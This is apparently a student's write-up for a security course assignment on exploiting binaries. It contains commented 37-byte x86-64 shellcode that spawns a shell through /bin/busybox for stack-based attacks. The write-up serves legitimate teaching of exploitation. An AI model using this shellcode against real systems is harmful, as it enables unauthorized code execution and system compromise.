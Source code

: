 # PCS Assignment 4

### `sortraev` (wlc376)

_**This assignment was made in collaboration with Louis Normann**_ (`cqb868`).

## Status of handin

I will not claim to have found *all* vulnerabilities for all three binaries, but
I *have* found enough exploitable vulnerabilities that I was able to
successfully complete all tasks in the assignment.



## Stack attacks

### Shellcode for `/bin/busybox sh`

Below shellcode calls `execve("/bin/busybox", {"/bin/busybox", "sh", 0}, 0)`
using 37 bytes.

```asm
bits 64
    mov ax, 0x6873 ; push "sh"
    cwde           ; zero upper 6 bytes of rax
    push rax

    push rsp
    pop rcx        ; rcx = "sh"

    push dword 0x786f6279       ; == "xoby"
    mov rax, 0x7375622f6e69622f ; == "sub/nib/"
    push rax                    ; push "bin/busybox"

    push rsp       ; rdi = "/bin/busybox"
    pop rdi

    cdq            ; edx = 0 (works because SIGN(rax) == 0)

    push rdx       ; argv[2] = NULL;
    push rcx       ; argv[1] = "sh";
    push rdi       ; argv[0[] = "/bin/busybox";

    push rsp
    pop rsi        ; rsi = argv

    push 59
    pop rax
    syscall        ; execve("/bin/busybox", {"/bin/busybox", "sh", 0}, 0)
```
